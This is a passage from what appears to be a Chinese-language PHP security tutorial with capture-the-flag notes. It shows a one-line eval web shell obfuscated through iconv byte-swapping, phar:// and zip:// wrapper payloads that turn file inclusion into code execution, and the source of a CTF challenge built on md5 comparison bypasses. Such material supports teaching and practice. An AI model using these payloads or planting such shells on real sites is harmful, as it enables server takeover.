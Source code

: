 >iconv ( string $in_charset , string $out_charset , string $str ) : 
>string将字符串 str 从 in_charset 转换编码到 out_charset。
>in_charset：输入的字符集。
>out_charset：输出的字符集。
>
>```php
><?php
>echo iconv("UCS-2LE","UCS-2BE",'<?php @eval($_POST[hack]);?>');
>?>
>//?<hp pe@av(l_$OPTSh[ca]k;)>?
>```

####  phar://

- 作用：属于 PHP 伪协议，phar（PHP Archive) 是 PHP 里类似于 JAR 的一种打包文件。
- 条件：
  - PHP >= 5.3.0

phar:// 的利用场景示例：

```php
<?php
  $files = $_GET['file'];
  include($files);
?>
```

对于这样的例子，先上传一个 zip 压缩包，里面是一个 txt 文件，内容是：`<?php phpinfo(); ?>`，在知道绝对路径（/www/upload/test.zip）之后，可以利用 phar:// 来执行这段代码，payload: `phar:///www/upload/test.zip/test.txt`

####  zip://

- 作用：属于 PHP 伪协议，用于访问 zip 压缩流

格式：`zip://[压缩文件绝对路径]#[压缩文件内的路径以及文件名]`

[*awctf-ez_php*](https://awctf.com/challenges#ez_php-242)

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if($_GET['a'] != $_GET['b'] && md5($_GET['a']) == md5($_GET['b'])) {
	if($_POST['c'] != $_POST['d'] && md5($_POST['c']) === md5($_POST['d'])) {
		if(isset($_POST['guess']) && md5($_POST['guess']) ===
		'd3566d2680615a3978a5bf603656ef17') {
			if(isset($_GET['file'])&&
			!preg_match("/base|\.\./i",$_GET['file']) &&
			preg_match("/HECTF/",$_GET['file'])) {
				if($_GET['file']=='flag.php' || is_file($_GET['file']))
				echo "NoNo"; else {
					highlight_file($_GET['file']);
				}
			} else {
				echo "NoNoNo";
			}
		} else {
			echo "NoNoNoNo";
		}
	} else {
		echo "NoNoNoNoNo";
	}
} else {
	echo "NoNoNoNoNoNo";
}
```
